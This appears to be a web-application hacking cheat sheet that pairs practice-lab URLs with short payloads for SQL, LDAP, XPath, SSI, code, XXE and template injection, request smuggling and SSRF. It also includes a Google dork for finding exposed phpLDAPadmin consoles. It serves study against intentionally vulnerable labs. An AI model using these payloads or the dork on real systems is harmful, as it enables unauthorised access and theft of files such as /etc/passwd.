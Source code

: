 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php
Payload : system("ls")

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php

# Command Injection
Lab : https://bwapp.hakhub.net/commandi.php

# HTTP Splitting Smuggling
Lab : https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
Payload : 
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

# Host Header Injection
Lab : https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning

# Server-side Template Injection
Lab : https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
Payload : <%= 7*7 %> 

# Server-Side Request Forgery
Lab : https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
Payload : http://localhost/admin
